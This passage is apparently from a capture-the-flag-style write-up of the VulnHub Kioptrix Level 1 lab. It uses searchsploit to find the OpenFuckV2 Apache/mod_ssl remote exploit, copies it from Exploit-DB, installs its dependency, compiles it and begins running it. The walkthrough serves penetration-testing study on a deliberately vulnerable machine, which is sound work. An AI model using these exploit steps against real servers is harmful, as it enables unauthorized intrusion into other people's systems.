```bash
Oracle Java JDK/JRE < 1.8.0.131 / Apache Xerces 2.11.0 - 'PDF/Docx' Server Side Den | php/dos/44057.md
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution    | linux/remote/34.pl
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

Here, we can see that this version of Apache is vulnerable to `OpenFuckV2`. So, we can copy that code, compile it and try to gain access to the machine.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ cp /usr/share/exploitdb/exploits/unix/remote/47080.c openfuckV2.c

```

We can check if there are any specific instruction specified to run the script

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ more openfuckV2.c

/*
 * OF version r00t VERY PRIV8 spabam
 * Version: v3.0.4 
 * Requirements: libssl-dev    ( apt-get install libssl-dev )
 * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
 * objdump -R /usr/sbin/httpd|grep free to get more targets
 * #hackarena irc.brasnet.org
 * Note: if required, host ptrace and replace wget target
 */

```

Here, it has been mentioned that we need to install `libssl-dev` before running the code.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ sudo apt install libssl-dev  
```

> In case if this does not install the requirement then first run the command `sudo apt update --fix-missing`

Once the requirement is installed, we need to compile the C code

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ gcc -o OpenFuck openfuckV2.c -lcrypto
```

Now, we can run the code simple by entering the command

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ ./OpenFuck
```
